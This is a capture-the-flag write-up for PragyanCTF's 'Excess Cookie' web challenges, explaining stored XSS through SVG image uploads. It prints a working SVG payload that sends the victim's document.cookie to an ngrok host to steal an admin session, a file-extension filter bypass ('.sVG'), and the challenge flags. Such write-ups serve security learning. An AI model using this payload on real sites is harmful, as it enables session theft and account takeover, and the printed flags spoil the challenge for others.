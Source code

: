 ```yaml
---
title: Excesscookie V1 & V2 
author: 0xRaminf0sec
date: 2022-03-07
categories: [PragyanCTF]
tags: [WEB,XSS]
---
```



> Chall Name : Excess Cookie V1 

> Description : You need to get logged in as admin to complete this challenge.

On visiting the challenge link,it shows normal login and register page.Created the user account and get logged in as normal user.

![Screenshot](https://raw.githubusercontent.com/Ramalingasamy012/PragyanCTF-Web/main/screenshots/sreenshot1.png "Screenshot")

It has the image uploading functionality and i tried to popup the XSS using SVG

> Scalable Vector Graphics(SVG) is an XML-based vector image format for two-dimensional graphics with support for interactivity and animation.

I have the common payload used for fire the XSS using SVG,Here is the payload!!
```

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
   alert(1);
   </script>
</svg>

```

Here,the website having another functionality which was report the user.If i report any user admin will look into that user profile.
So,What i done was,

Open the terminal and started python http server and open another tab and started  ngrok with the port which is used for python http server

![Screenshot](https://raw.githubusercontent.com/Ramalingasamy012/PragyanCTF-Web/main/screenshots/screensho2.png "Screenshot")

Alter the payload like this, 

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
var i=new Image;
i.src="http://8eb8-59-98-37-253.ngrok.io/?"+document.cookie;
   
   </script>
</svg>
```
And upload it as the profile picture,after that copy the userid and report it to the admin.
And the ADMIN cookie stealed!!

![Screenshot](https://raw.githubusercontent.com/Ramalingasamy012/PragyanCTF-Web/main/screenshots/admincookie.png "Screenshot")

Change auth cookie to this admin cookie, We found the FLAG !!

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r} 
```

> Chall Name : Excess Cookie V2

> Description : Last challenge vulnerabilities are fixed. Try to solve this.

Same as per first challenge,but svg extension was not accepted.
So,there was a way for bypassing it by renaming the extension as "filename.sVG" and uploaded this ,the site accpeted this svg and XSS fired!!!

There was no change in the payload ,using the same steps what i have done in V1 is enough to get the admin cookie

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r_on1y_w1th_http_0nly} 
```



    